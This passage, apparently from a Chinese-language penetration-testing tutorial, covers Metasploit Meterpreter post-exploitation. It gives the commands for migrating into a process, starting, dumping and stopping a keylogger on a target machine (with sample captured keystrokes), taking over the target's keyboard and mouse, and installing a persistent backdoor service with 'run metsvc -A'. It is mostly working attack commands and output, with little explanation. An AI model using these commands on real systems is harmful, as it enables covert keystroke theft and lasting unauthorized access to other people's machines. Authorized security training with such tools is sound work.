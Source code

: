 ```
migrate -P 3240
```

#### 键盘监听

```
Meterpreter还可以在目标设备上实现键盘记录功能，键盘记录主要涉及以下三种命令：

keyscan_start：开启键盘记录功能

keyscan_dump：显示捕捉到的键盘记录信息

keyscan_stop：停止键盘记录功能

uictl enable keyboard/mouse#接管目标主机的键盘和鼠标。

meterpreter > keyscan_start #针对远程目标主机开启键盘记录功能

Starting the keystroke sniffer...

meterpreter > keyscan_dump #存储目标主机上捕获的键盘记录

Dumping captured keystrokes...

dir <Return> cd<Ctrl> <LCtrl>

meterpreter > keyscan_stop #停止针对目标主机的键盘记录

Stopping the keystroke sniffer...
```



渗透后设置永久访问权限，需要在Meterpreter命令行中运行如下命令：

```bash
run metsvc -A
```
